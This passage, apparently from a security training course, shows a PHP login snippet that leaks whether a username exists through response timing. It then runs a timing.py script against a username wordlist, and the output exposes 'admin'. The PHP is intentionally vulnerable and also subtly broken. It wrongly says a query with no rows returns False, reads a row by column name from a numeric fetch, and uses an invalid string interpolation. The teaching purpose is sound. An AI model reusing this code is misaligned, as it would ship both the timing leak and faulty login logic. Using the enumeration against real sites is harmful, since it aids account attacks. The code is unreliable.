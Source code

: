 ``` PHP
<?php
// connect to database
$db = mysqli_connect("localhost", "dbuser", "dbpass", "dbname");

// retrieve row data for user
$result = $db->query('SELECT * FROM users WHERE username="'.safesql($_POST['user']).'" AND active=1');

// $db->query() replies True if there are at least a row (so a user), and False if there are no rows (so no users)
if ($result) {
  // retrieve a row. don't use this code if multiple rows are expected
  $row = mysqli_fetch_row($result);

  // hash password using custom algorithm
  $cpass = hash_password($_POST['password']);
  
  // check if received password matches with one stored in the database
  if ($cpass === $row['cpassword']) {
	echo "Welcome $row['username']";
  } else {
    echo "Invalid credentials.";
  } 
} else {
  echo "Invalid credentials.";
}
?>
```

The code snippet first connects to the database and then executes a query to retrieve an entire row where the username matches the requested one. If there are no results, the function ends with a generic message. When $result is true (the user exists and is active), the provided password is hashed and compared. If the hashing algorithm used is strong enough, timing differences between the two branches will be noticeable. By calculating $cpass using a generic hash_password() function, the response time will be higher than the other case. This small error could be avoided by checking user and password in the same step, having a similar time for both valid and invalid usernames.

Download the script timing.py to witness these types of timing differences and run it against an example web application (timing.php) that uses bcrypt.

```
python3 timing.py /opt/useful/SecLists/Usernames/top-usernames-shortlist.txt

[+] user root took 0.003
[+] user admin took 0.263
[+] user test took 0.005
[+] user guest took 0.003
[+] user info took 0.001
[+] user adm took 0.001
[+] user mysql took 0.001
[+] user user took 0.001
[+] user administrator took 0.001
[+] user oracle took 0.001
[+] user ftp took 0.001
[+] user pi took 0.001
[+] user puppet took 0.001
[+] user ansible took 0.001
[+] user ec2-user took 0.001
[+] user vagrant took 0.001
[+] user azureuser took 0.001
```
